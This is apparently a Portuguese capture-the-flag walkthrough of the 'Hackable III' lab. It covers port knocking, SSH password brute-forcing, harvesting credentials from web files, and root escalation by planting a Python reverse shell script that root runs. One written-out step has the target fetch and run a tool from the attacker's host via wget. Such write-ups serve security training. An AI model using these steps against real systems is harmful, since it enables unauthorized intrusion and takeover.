 <h2>Começamos com uma varredura simples com nmap e uma varredura por diretórios.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/1.JPG)

<h2>Lendo o código fonte, vemos uma mensagem do desenvolvedor para alguém - jubiscleudo - e mencionando sobre o port knocking, logo sabemos que tem algum serviço oculto. Também encontramos o caminho para uma página de login </h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/2.JPG)

<h2>Analisando o arquivo robots.txt vemos que a pasta config não está permitada -> Disallow: /config
acessando ela temos um arquivo chamada 1.txt, usando o hashanalyser(https://www.tunnelsup.com/hash-analyzer/) sabemos que se trata de um base64, fazendo o decode temos o seguinte: 10000</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/3.1.JPG)


<h2>Procurando nos outros diretórios(/css) encontrei o 2.txt, se trata de um Brainfuck, pesquisando por decode brainfuck encontramos algumas opções e temos como resultado 4444.</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/4.1.JPG)

<h2>Vemos uma wordlist na pasta backup que nos será útil mais tarde</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/5.JPG)


<h2>Percebendo que se trata de portas(10000,4444), vem a mente o port knocking, nota-se que por default ele vem com as portas 7000,8000,9000 (3 portas são necessárias), seguindo essa lógica temos apenas os valores 1 e 2, existem 3 formas de encontrar o 3 arquivo.</h2>

<h3>1° FORMA: Fazendo uma varredura por extensão(os 2 primeiros eram txt, o 3° não é! por isso sempre faça uma varredura "genérica")</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.1.JPG)


<h3>2° FORMA: Na varredura também podemos encontar um outro arquivo html(home.html), acessando ele e vendo a fonte vemos um comentário bem explícito que existe algum arquivo.jpg que temos que buscar, isso simplificaria muito a busca</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.JPG)
![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.2.1.JPG)


<h3>3° FORMA: Na página de login que encontramos anteriormente, tentando fazer login vemos que não acontece nada pois ainda está em desenvolvimento, porém vendo a fonte encontramos nosso 3.jpg lá!</h3>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/6.3.JPG)


<h2>Abrindo o 3.jpg já percebe-se que se trata de esteganografia, usaremos o steghide, usando o info vemos que existe algo lá dentro, agora extraimos ele(ao pedir senha pode apenas apertar enter já que o arquivo não possui senha). Assim temos nossa última "senha: 65535"</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/7.JPG)


<h2>Usaremos o knock para "abrir" o serviço oculto, usando a mesma ordem das senhas 1-2-3, se trata de um ssh</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/8.JPG)


<h2>Agora entra a wordlist que encontramos antes, como usuário temos o jubiscleudo, faremos um brute force e entraremos via ssh</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/9.JPG)


<h2>A 1° flag está oculta, ls -la</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/10.JPG)



<h2>Dando uma olhada nos arquivos de /var/www/html conseguimos as credenciais para outro usuário</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/11.JPG)



<h2>Após fazer login no usuário hackable_3 executaremos o pspy - periodicamente  o root(UID=0) executado "python3 /scripts/to_hackable_3.py", indo até a pasta não existe o arquivo, então basta criarmos um arquivo com o mesmo caminho que será executado pelo root</h2> link pspy: encurtador.com.br/gkrx2

<h4>
atacante: python3 -m http.server <br/>
vítima: wget http://ip_kali:8000/pspy <br/>
	chmod +x pspy <br/>
	./pspy
</h4>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/12.JPG)


<h2>Agora é hora da criatividade, o root está executando nosso arquivo python, no nosso caso queremos conseguir uma reverse shell, usei o de python https://shellgenerator.github.io </h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/13.JPG)


<h2>Deixamos nosso netcat ouvindo e aguardamos o processo executa nosso arquivo</h2>

![img](https://raw.githubusercontent.com/elias403/Write-up-s/main/images/hackable_III/14.JPG)

